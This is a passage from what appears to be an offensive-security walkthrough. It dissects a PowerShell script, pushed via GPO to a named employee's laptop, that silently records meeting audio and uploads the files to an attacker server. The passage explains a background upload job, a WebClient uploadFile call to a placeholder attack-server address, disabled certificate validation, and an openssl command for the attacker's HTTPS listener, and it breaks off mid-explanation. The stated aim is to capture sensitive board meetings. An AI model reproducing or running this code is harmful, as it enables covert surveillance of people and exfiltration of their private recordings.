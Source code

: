 By running this script via a GPO on Elise’s Surface Pro, we can silently capture and exfiltrate audio recordings from her meetings—potentially even those sensitive board meetings.

Also, here is more detailed breakdown of the second part of the script:

- The start-job cmdlet to handle the file upload in parallel with the audio recording. This prevents any recording downtime while the file is being uploaded.

```
start-job -Name Para$i -ArgumentList $i -ScriptBlock{}
```

- start-job: Starts a new job in the background, allowing the script to perform tasks concurrently.

- ```-Name Para$i```: Names the job with a unique identifier (Para1, Para2, etc.), again using the incremented $i variable.

- ```-ArgumentList $i```: Passes the current value of $i into the script block, ensuring that the correct file is uploaded.

**Inside the ScriptBlock:**

- ```$i = $args[0];```: This assigns the passed-in argument $i to the local variable $i within the script block. The args[0] represents the first argument in the list.

- ```$browser = New-Object System.Net.WebClient;```: Recreates the WebClient object for this job, as each job runs in its own process.

- ```$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;```: Again, sets the WebClient to use the default network credentials.

- ```[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};```: This line forces the script to accept any SSL/TLS certificate, even self-signed ones, without validation. This is crucial for sending files over HTTPS to a potentially suspicious server.

- ```$browser.uploadFile("https://<AttackServer_ip>/", "c:\users\ejansen\appdata\local\file$i.wav");```: Uploads the recorded audio file to the attacker's server using the WebClient's uploadFile method.

After dissecting this PowerShell script, we focus on securely transmitting the captured audio files. To do this, we’ll set up a simple HTTPS server using Python. This server will rely on OpenSSL to encrypt the data during transmission.

First, we need to generate a self-signed SSL certificate. This ensures that the data sent to our attack server is encrypted, even if the certificate is not trusted by default. Here's the command used to create the certificate:

```
root@AttackSrv:~# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
Generating a 2048 bit RSA private key
..................................+++
..................................+++
writing new private key to 'server.pem'
```

Just a quick clarification:

- openssl req -new -x509: This initiates the creation of a new certificate (-new) and specifies that it should be a self-signed certificate (-x509).
